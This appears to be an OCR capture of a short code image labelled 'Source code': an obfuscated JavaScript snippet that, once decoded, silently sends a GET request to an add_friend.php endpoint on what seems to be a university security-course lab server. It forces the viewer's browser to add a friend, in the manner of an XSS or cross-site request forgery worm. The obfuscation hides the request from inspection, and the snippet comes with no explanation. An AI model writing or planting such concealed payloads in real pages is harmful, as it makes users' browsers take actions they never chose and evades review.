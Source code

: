 const _0x4934=['8003VmWzJx','open','1527518agvkzd','1jGbjmr','GET','1799935zbGMxS','send','9vjRQzd','8XTFnCn','http://csec380-core.csec.rit.edu:86/add_friend.php?id=130','213865kEmWVu','357549RwxOHA','1069873UgdVmk','15JIdkgS','4eVLkrm','1108733hjTEDD'];const _0x21b8=function(_0x3d2c75,_0x22e0dd){_0x3d2c75=_0x3d2c75-0xbb;let _0x49340f=_0x4934[_0x3d2c75];return _0x49340f;};const _0x36f773=_0x21b8;(function(_0x38c0ab,_0x325b55){const _0x10284c=_0x21b8;while(!![]){try{const _0x36a61d=-parseInt(_0x10284c(0xbd))+-parseInt(_0x10284c(0xc8))*parseInt(_0x10284c(0xbb))+-parseInt(_0x10284c(0xbf))*parseInt(_0x10284c(0xbc))+-parseInt(_0x10284c(0xc3))*parseInt(_0x10284c(0xc4))+-parseInt(_0x10284c(0xc6))+-parseInt(_0x10284c(0xbe))*parseInt(_0x10284c(0xc1))+parseInt(_0x10284c(0xc0))*parseInt(_0x10284c(0xc9));if(_0x36a61d===_0x325b55)break;else _0x38c0ab['push'](_0x38c0ab['shift']());}catch(_0x39234e){_0x38c0ab['push'](_0x38c0ab['shift']());}}}(_0x4934,0xf3888));const r=new XMLHttpRequest(),x=_0x36f773(0xca);r[_0x36f773(0xc2)](_0x36f773(0xc5),x),r[_0x36f773(0xc7)]();
